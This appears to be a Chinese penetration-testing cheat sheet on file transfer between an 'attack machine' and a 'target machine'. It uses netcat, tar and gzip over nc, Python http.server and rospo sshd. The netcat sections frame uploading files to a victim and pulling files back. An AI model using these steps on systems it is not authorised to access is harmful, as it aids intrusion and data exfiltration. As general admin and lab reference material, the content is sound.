 # 文件传输

## 传输技巧

### 分块传输

发送方拆分文件

```
split -b 1M large_file chunk_
```



接收方合并

```
cat chunk_* > large_file
```



## nc

Netcat (nc) 是一个功能强大的网络工具，可用于在 Linux 主机之间传输文件。假设 Linux1 是攻击机，Linux2 是靶机，以下是四种不同的文件传输方式：



**上传文件到靶机**：linux1 发送文件到 linux2

**接收方监听**

在接收方 (linux2) 上启动监听：

```bash
nc -l -p 1234 > received_file
```

在发送方 (linux1) 上发送文件：

```bash
nc linux2的IP 1234 < file_to_send
```



**发送方监听**

在发送方 (linux1) 上启动监听并准备发送：

```bash
nc -l -p 1234 < file_to_send
```

在接收方 (linux2) 上连接并接收：

```bash
nc linux1的IP 1234 > received_file
```



**下载文件到攻击机**：linux2 从 linux1 拉取文件

**发送方监听**

在发送方 (linux1) 上准备文件并监听：

```bash
nc -l -p 1234 < file_to_send
```

在接收方 (linux2) 上主动连接并接收：

```bash
nc linux1的IP 1234 > pulled_file
```



**接收方监听**

在接收方 (linux1) 上启动监听：

```bash
nc -l -p 1234 > pushed_file
```

在发送方 (linux2) 上推送文件：

```bash
nc linux1的IP 1234 < file_to_push
```



**验证文件**

传输完成后，建议验证文件：

```bash
# 发送方
md5sum original_file

# 接收方
md5sum received_file
```

- 两个 MD5 值应该相同。



**高级用法**

**传输整个目录**

发送方：

```bash
tar -czf - directory_name | nc -l -p 1234
```

接收方：

```bash
nc 发送方IP 1234 | tar -xzf -
```



**使用压缩传输**

发送方：

```bash
gzip -c file | nc -l -p 1234
```

接收方：

```bash
nc 发送方IP 1234 | gunzip -c > file
```



## http_py

Python 自带的 `http.server` 模块快速启动一个 HTTP 文件服务器，允许他人访问指定端口下载文件。

### Python2

启动 HTTP 服务器**（默认端口 8000）**

```
python2 -m SimpleHTTPServer 8000
```

Python 2 的 `SimpleHTTPServer` 模块（基于 `BaseHTTPServer`）功能较为简单，**不支持额外参数**，只能通过命令行指定端口（默认 `8000`）。



**访问方式**：浏览器访问 `http://<你的IP>:8000` 即可浏览和下载文件。

![image-20250401171916051](./images/%E6%96%87%E4%BB%B6%E4%BC%A0%E8%BE%93.assets/image-20250401171916051.png)







### Python3

启动 HTTP 服务器**（默认端口 8000，当前目录为 Web 根目录）**

```
python3 -m http.server 8000
```



**基本参数**

| 参数                     | 说明                                                         |
| ------------------------ | ------------------------------------------------------------ |
| `PORT`                   | 指定端口（默认 `8000`）                                      |
| `--bind ADDRESS` (`-b`)  | 绑定到特定 IP（默认 `localhost`，`0.0.0.0` 允许所有网络访问） |
| `--directory DIR` (`-d`) | 指定共享的目录（默认当前目录）                               |
| `--cgi`                  | 启用 CGI 脚本支持（需目录下有 `cgi-bin` 子目录）             |



绑定所有 IP，端口 8080，共享 /tmp 目录

```
python3 -m http.server 8080 --bind 0.0.0.0 --directory /tmp
```



IPv6 支持

```
python3 -m http.server --bind :: 8000
```



后台运行（Linux）

```
nohup python3 -m http.server 8000 > /dev/null 2>&1 &
```



## rospo

在终端执行执行以下命令，使用 rospo 工具启动一个 ssh 服务。

```
rospo sshd -P :4444
```



使用 sftp 工具（如：FileZilla）可以连接 rospo sshd 服务。

